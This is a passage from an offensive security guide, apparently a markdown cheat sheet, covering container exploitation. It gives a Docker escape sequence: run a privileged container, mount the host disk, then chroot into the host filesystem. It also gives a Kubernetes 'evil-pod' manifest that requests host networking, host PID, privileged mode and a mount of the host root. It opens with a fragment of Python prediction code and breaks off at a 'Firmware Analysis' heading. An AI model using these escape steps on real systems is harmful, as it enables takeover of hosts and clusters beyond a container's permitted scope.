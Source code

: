 ```python
    features = extract_features(binary_data)
    predictions = model.predict(features)
    
    return [addr for addr, pred in zip(addresses, predictions) if pred > 0.8]
```

## Containerized Exploitation

### Docker Escape

```bash
# Container escape through privileged container
docker run --privileged -it ubuntu:latest /bin/bash

# Mount host filesystem
mkdir /mnt/host
mount /dev/sda1 /mnt/host

# Access host files
chroot /mnt/host /bin/bash
```

### Kubernetes Exploitation

```yaml
# Malicious pod with host access
apiVersion: v1
kind: Pod
metadata:
  name: evil-pod
spec:
  hostNetwork: true
  hostPID: true
  containers:
  - name: evil-container
    image: alpine
    securityContext:
      privileged: true
    volumeMounts:
    - name: host-root
      mountPath: /host
  volumes:
  - name: host-root
    hostPath:
      path: /
```

## IoT and Embedded Exploitation

### Firmware Analysis
